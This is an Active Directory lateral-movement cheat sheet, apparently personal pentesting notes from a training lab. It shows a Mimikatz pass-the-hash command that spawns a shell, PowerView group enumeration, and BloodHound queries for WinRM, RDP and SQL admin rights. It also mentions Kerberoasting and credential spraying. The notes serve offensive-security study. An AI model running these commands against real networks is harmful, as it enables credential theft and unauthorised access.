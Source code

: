 ### Mimikatz
```
> kerberos::hash /password:lucky7

> mimikatz.exe
# privilege::debug 
# sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:"cmd.exe" exit
```

### [SMB](../Services/SMB.md#remote-code-execution)

### [WinRM](../Services/WINRM.md#connecting)
**Enumerating the Remote Management Users Group**
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

**Using the Cypher Query in BloodHound**
```powershell
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

### [RDP](../Services/RDP.md#connecting)
**Enumerating the Remote Desktop Users Group**
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**
If we gain control over a user through an attack such as LLMNR/NBT-NS Response Spoofing or Kerberoasting, we can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under Execution Rights on the Node Info tab.

We could also check the Analysis tab and run the pre-built queries Find Workstations where Domain Users can RDP or Find Servers where Domain Users can RDP

### [MSSQL](../Services/SQL.md#mssql)
More often than not, we will encounter SQL servers in the environments we face. It is common to find user and service accounts set up with sysadmin privileges on a given SQL server instance. We may obtain credentials for an account with this access via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool Snaffler to find web.config or other types of configuration files that contain SQL server connection strings.

BloodHound, once again, is a great bet for finding this type of access via the SQLAdmin edge. We can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:

**Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound**
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
